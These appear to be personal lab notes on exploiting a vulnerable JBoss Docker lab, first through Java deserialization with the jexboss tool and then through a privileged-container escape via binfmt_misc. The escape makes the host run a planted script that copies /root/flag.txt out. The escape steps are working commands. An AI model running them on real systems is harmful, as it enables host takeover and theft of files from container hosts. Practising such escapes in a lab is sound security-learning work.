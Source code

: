 # jboss + binfmt_misc

- Vulapp
    - container
        - https://vulapps.evalbug.com/j_jboss_1/
        - start command: docker run --rm -d -p 8080:8080 --privileged --name jboss medicean/vulapps:j_jboss_1
    - hack method
        - java 反序列化
            - 我不會寫payload
            - 用工具 https://github.com/joaomatosf/jexboss
            - Use command: python3 jexboss.py -D --jboss -host http://127.0.0.1:8080

- Breakout Privileged
    - all
    - actually CAP_ADMIN

- Breakout payload
    - mount binfmt_misc -t binfmt_misc /proc/sys/fs/binfmt_misc
    - mount | grep upperdir 
    - (change the dir in later commands "/var/lib/......../tmp")
    - cd tmp
    - echo '#!/bin/bash' > test.sh
    - echo '' >> test.sh
    - echo 'cat /root/flag.txt > /var/lib/docker/overlay2/ac43a4775e3f5db566b90edff240df6a2e976b2c7a85359bb43b89946713f48a/diff/tmp/flag.txt' >> test.sh
    - chmod +x test.sh
    - echo ':test:M:208:\x28\x34::/var/lib/docker/overlay2/ac43a4775e3f5db566b90edff240df6a2e976b2c7a85359bb43b89946713f48a/diff/tmp/test.sh:' > /proc/sys/fs/binfmt_misc/register
    - (change to host root and use ls command)
    - echo -1 > /proc/sys/fs/binfmt_misc/status
    - ls
    
- replace "ls" command of the kernel